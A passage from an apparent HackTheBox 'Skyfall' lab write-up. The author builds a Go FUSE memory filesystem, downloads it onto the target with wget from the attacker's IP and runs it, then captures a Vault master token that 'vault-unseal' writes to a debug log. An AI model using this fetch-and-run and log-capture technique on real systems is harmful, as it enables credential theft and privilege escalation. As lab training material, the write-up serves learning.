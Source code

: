 

    oxdf@hacky$ go build -buildvcs=false
    oxdf@hacky$ ./memfs ~/testfs/ memfsoutput-
    Mounted!



Now from a root shell:



    root@hacky:/home/oxdf# echo "now it should work" > testfs/as_root
    root@hacky:/home/oxdf# cat testfs/as_root 
    now it should work



And the file got logged:



    root@hacky:/home/oxdf# cat hackthebox/skyfall-10.10.11.254/go-fuse/example/memfs/memfsoutput-1 
    now it should work



#### On Skyfall

I'll upload the compiled `memfs` to Skyfall, create a directory, and
mount it:



    askyy@skyfall:/dev/shm$ wget 10.10.14.6/memfs
    --2024-08-27 18:33:29--  http://10.10.14.6/memfs
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3500122 (3.3M) [application/octet-stream]
    Saving to: ‘memfs’

    memfs                   100%[=============================>]   3.34M  11.8MB/s    in 0.3s    

    2024-08-27 18:33:30 (11.8 MB/s) - ‘memfs’ saved [3500122/3500122]

    askyy@skyfall:/dev/shm$ mkdir out
    askyy@skyfall:/dev/shm$ chmod +x memfs 
    askyy@skyfall:/dev/shm$ ./memfs
    usage: main MOUNTPOINT BACKING-PREFIX
    askyy@skyfall:/dev/shm$ ./memfs out/ out
    Mounted!



In another SSH window, I'll go into that directory and run
`vault-unseal`:



    askyy@skyfall:/dev/shm/out$ cat debug.log 
    2024/08/27 18:34:49 Initializing logger...
    2024/08/27 18:34:49 Reading: /etc/vault-unseal.yaml
    2024/08/27 18:34:49 Security Risk!
    2024/08/27 18:34:49 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    2024/08/27 18:34:49 Found Vault node: http://prd23-vault-internal.skyfall.htb
    2024/08/27 18:34:49 Check interval: 5s
    2024/08/27 18:34:49 Max checks: 5
    2024/08/27 18:34:49 Establishing connection to Vault...
    2024/08/27 18:34:49 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
    2024/08/27 18:34:49 Checking seal status
    2024/08/27 18:34:49 Vault sealed: false
